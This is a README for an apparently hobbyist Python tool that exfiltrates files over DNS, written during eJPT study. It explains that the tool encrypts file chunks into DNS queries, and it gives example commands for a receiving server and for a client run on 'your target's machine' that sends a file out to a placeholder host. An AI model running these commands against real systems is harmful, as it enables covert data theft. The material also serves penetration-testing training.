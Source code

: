 # A lightweight, easy-to-use, DNS data exfiltrator
As I was plowing through the INE eJPT course, I ran into a DNS data exfiltrator that I thought was annoying to use. So I rolled my own. This is the result. I am open to suggestions, critique and questions. I learned a lot from building this, both about the DNS protocol and how data exfiltration works and some neat tricks in Python. I hope it'll benefit you in your (legal!) endeavors.

The way this script works is by reading, and encrypting, the to-be-exfiltrated file. The encrypted file contents is then split up into packets of 32 bytes (by default) as DNS queries cannot be greater than 63 octets. The encrypted packets are then sent to the host as the queried FQDN. The host will then receive the DNS query with the encrypted packet, respond with a valid DNS response, paste the packets back together to form the file and decrypt its contents. Et voila, an exfiltrated file.

The data that is being exfiltrated is encrypted using AES256 symmetric encryption. It is therefore important that you set the same seed phrase or password on both the host and client.

# Installation
Just clone/download the script from this Git repo and run the script as instructed below.

# Dependencies / Requirements
* Python 3.8+
* PyCryptodome: `pip3 install pycryptodome`

# Usage
The script can be run in two modes: `host` or `client`. The host mode should be used on your own machine, where the data is being exfiltrated __to__. The client mode should be run on your target's machine, where the data is being exfiltrated __from__. 

## Host
Running the script in host mode will run a DNS server on udp/53, which is built specifically to receive exfiltrated data from the script in client mode and respond accordingly with a standard DNS reponse in order to further mask the traffic as being legitimate. For example:
```
python3 dns-exfil.py -mode host -hostip "127.0.0.1" -password "s3cr3tp4ssw0rd"
```

This will start a DNS server on UDP port 53 (default, can be changed) and use the seed phrase specified by the `-password` argument to decrypt the received data.

## Client
On your target machine, copy-paste / install the script and run it. For example:
```
python3 dns-exfil.py -mode client -dest "your_public_machine_ip" -password "s3cr3tp4ssw0rd" -file "/path/to/the/file/you/want/to/exfil"
```

When executed on your target's machine, the script will open up the specified `-file`, encrypt the data with the provided `-password` seed phrase and send over the encrypted file contents through DNS queries to the specified `-dest` IP address / host name (this should be the IP where you are running the script in host mode).

## More help on arguments and options
```
python3 dns-exfil.py -h
```

